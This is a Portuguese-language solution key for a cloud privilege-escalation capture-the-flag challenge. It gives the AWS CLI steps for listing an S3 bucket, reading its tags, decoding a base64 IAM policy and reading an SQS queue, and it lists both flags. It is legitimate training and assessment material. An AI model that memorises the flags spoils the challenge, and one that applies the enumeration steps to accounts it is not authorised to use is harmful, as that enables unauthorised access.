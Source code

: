 ## A5 - Cloud Privesc Challenge

### Procedimento

#### A5.1 - Identifique a tag.

Neste desafio, foi idealizado que um bucket irá ser acessível dentro da conta e terá uma tag com a FLAG. Para tal será necessário os conhecimentos em: aws cli

O primeiro passo será tentar listar quais buckets a candidata consegue visualizar, através do comando ela deverá encontrar o bucket `ysh-nubank` :

````shell
$ aws s3 ls s3://ysh-nubank/
2022-09-13 20:24:00 ysh-nubank
````

Após ver que possui algum tipo de leitura no bucket, deve utilizar do cli para ver as tags do mesmo, através do comando abaixo:

````shell
$ aws s3api get-bucket-tagging --bucket ysh-nubank
{
  "TagSet": [
    {
      "Key": "YSH",
      "Value": "CLOUDSEC_1x0x1"
    }
  ]
}

````

Flag a ser submetida pela candidata: `YSH = "CLOUDSEC_1x0x1"`

---

#### A5.2 - Descubra o segredo entre os objetos do bucket e escale o privilégio.

A candidata deve utilizar comandos que listem quais objetos estão no bucket descoberto no passo A5.1, desta forma encontrará o arquivo chamado `file.txt`:

```shell
$ aws s3 ls s3://ysh-nubank/
```

Após achar o arquivo suspeito, deve fazer download para a maquina local através do comando:

```shell
$ aws s3 cp s3://ysh-nubank/file.txt ./
```

Próximo passo é ler o que contem neste arquivo

```shell
$ cat file.txt
```

Agora a candidata terá que tentar identificar em qual codificação o conteúdo do arquivo está e, após a descoberta, decodificar.

```shell
$ cat file.txt
ewogICAgIlN0YXRlbWVudCI6IFsKICAgICAgICB7CiAgICAgICAgICAgICJBY3Rpb24iOiBbCiAgICAgICAgICAgICAgICAic3FzOkxpc3RRdWV1ZVRhZ3MiCiAgICAgICAgICAgIF0sCiAgICAgICAgICAgICJFZmZlY3QiOiAiQWxsb3ciLAogICAgICAgICAgICAiUmVzb3VyY2UiOiAiYXJuOmF3czpzcXM6dXMtZWFzdC0xOjkwNTk2NTI0MDkyNDp5c2gtbnViYW5rLXF1ZXVlIgogICAgICAgIH0KICAgIF0sCiAgICAiVmVyc2lvbiI6ICIyMDEyLTEwLTE3Igp9

$ echo ewogICAgIlN0YXRlbWVudCI6IFsKICAgICAgICB7CiAgICAgICAgICAgICJBY3Rpb24iOiBbCiAgICAgICAgICAgICAgICAic3FzOkxpc3RRdWV1ZVRhZ3MiCiAgICAgICAgICAgIF0sCiAgICAgICAgICAgICJFZmZlY3QiOiAiQWxsb3ciLAogICAgICAgICAgICAiUmVzb3VyY2UiOiAiYXJuOmF3czpzcXM6dXMtZWFzdC0xOjkwNTk2NTI0MDkyNDp5c2gtbnViYW5rLXF1ZXVlIgogICAgICAgIH0KICAgIF0sCiAgICAiVmVyc2lvbiI6ICIyMDEyLTEwLTE3Igp9 | base64 --decode
{
  "Statement": [
    {
      "Action": [
        "sqs:ListQueueTags"
      ],
      "Effect": "Allow",
      "Resource": "arn:aws:sqs:us-east-1:905965240924:ysh-nubank-queue"
    }
  ],
  "Version": "2012-10-17"
}
```

Neste ponto irá visualizar que uma fila SQS está disponível, sendo assim, começar a testar o privilegio chegando no sqs permitido na policy descrita no arquivo `file.txt`, desta forma terá o conteúdo da flag no body da mensagem:

````shell
$ aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/905965240924/ysh-nubank-queue --attribute-names All --message-attribute-names All --max-number-of-messages 1
````

Flag a ser submetida pela candidata: `YSH  = "CLOUDSEC_2x02"`

 